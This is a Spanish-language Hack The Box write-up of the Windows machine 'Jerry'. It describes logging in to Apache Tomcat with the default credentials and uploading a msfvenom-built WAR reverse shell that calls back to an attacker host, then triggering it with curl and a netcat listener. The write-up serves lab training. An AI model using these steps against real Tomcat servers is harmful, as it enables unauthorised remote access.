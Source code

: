 ```yaml
---
title: Jerry - HTB Writeup
date: 2023-09-06 22:00:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Windows, Writeup]
image:
  path: /assets/img/post/jerry/catherine-heath-i4W8OINLI_I-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Jerry** es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad en el servicio ```Apache``` por el puerto ```8080```

## **Reconocimiento**

Como siempre utilizaremos la herramienta ```nmap``` para reportar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
```

![img](/assets/img/post/jerry/feb426c5-b454-4f82-aaa7-5949a66c0751.png)

En la máquina esta abierto solamente el puerto ```8080``` , si introducimos la ```URL``` en el buscador junto al puerto, podemos ver lo siguiente:

![img](/assets/img/post/jerry/0701b41c-55c8-4188-ba3f-75cf0c92fbcc.png)

Podemos **loguearnos** en el servicio **Apache Tomcat** con las credenciales predeterminadas ```tomcat:s3cret```:

![img](/assets/img/post/jerry/658a5dde-829f-4032-8068-8d70f427a1e0.png)

Vemos que hay una sección donde podemos **subir archivos** ```.war``` , la cual usaremos para conseguir acceso al sistema: 

![img](/assets/img/post/jerry/f13630bf-58f1-4988-bdea-0e9e224c5fc1.png)

### Web Aplication Resource Files

> Un archivo ```WAR```, es un formato de archivo utilizado para **empaquetar y distribuir aplicaciones web** en la plataforma **Java**. Este contiene todos los recursos necesarios para ejecutar una aplicación web en un solo archivo comprimido.

## Explotación

Usaremos la herramienta ```msfvenom``` para crear una ```reverse shell``` en windows y poder acceder mediante ```nc```:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war > rev_shell.war
```

![img](/assets/img/post/jerry/6f231e1c-e4ea-4e1c-a7ea-c9341910e71c.png)

Además deberemos saber el nombre del archivo ```.jsp``` para activarla con la herramienta ```curl``` , por lo tanto usaremos ```jar``` para enumerar el contenido del archivo ```.war```:

![img](/assets/img/post/jerry/bc65ae69-5fe0-4c28-a763-84e8280629c9.png)

Ahora subiremos la reverse shell, mediante la web utilizando ```curl``` , nos pondremos en escucha en otra terminal mediante ```nc```:

```bash
curl http://10.10.10.95:8000/rev_shell/mdeonxmbgy.jsp
```

![img](/assets/img/post/jerry/7bd0c1bc-d7de-4a35-b8df-496fc4bce938.png)

De esta manera ya tendremos acceso completo a la máquina víctima, en donde podremos encontrar las flags en el ```Desktop``` del usuario ```administrator```

Espero que haya ayudado, se agradece cualquier tipo de comentario para mejorar poco a poco. Adios!